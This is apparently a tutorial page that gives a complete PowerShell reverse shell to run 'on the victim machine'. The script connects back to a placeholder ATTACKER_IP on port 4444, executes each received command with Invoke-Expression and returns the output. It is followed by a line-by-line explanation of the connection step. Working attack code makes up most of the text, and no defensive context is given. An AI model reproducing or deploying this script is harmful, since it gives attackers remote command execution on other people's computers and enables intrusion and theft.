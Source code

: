 On the victim machine (Windows), you’ll run a PowerShell script that connects back to the attacker's machine and listens for commands.

PowerShell Script (Victim's Side):

$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP', 4444)  # Replace 'ATTACKER_IP' with the attacker's IP
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message confirming the connection
$writer.WriteLine("Connection Established")
$writer.Flush()

# Main loop to listen for commands from the attacker
while ($true) {
    # Read the command sent from the attacker
    $command = $reader.ReadLine()

    # If the command is 'exit', break the loop and close the connection
    if ($command -eq "exit") {
        break
    }

    # Execute the received command and get the output
    $output = Invoke-Expression $command

    # Send back the output of the command to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()

Explanation of the PowerShell Script:

    TCP Connection to the Attacker:

        The first line in the script creates a TCP connection from the victim machine to the attacker’s machine on a specific IP (ATTACKER_IP) and port (4444):

        $client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP', 4444)
